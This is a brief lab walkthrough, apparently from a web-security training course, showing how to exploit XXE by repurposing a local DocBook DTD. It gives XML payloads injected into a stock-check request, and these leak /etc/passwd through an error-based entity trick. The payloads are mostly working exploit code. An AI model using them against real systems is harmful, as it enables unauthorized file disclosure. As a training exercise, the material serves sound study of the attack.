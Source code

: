# Lab: Exploiting XXE to retrieve data by repurposing a local DTD

Intercept a request for check stock and add the following xml before forwarding:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

This does not return an error, but a random filename will, indicating that the dtd does exist at the specified location.

Do a google search for the file to find documentation of the entities defined in the dtd. The first one is `ISOamsa`

Use the following xml in another check stock request, redefining the `ISOamsa` entity to trigger an error:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

This returns the contents of `/etc/passwd` in the error, solving the lab.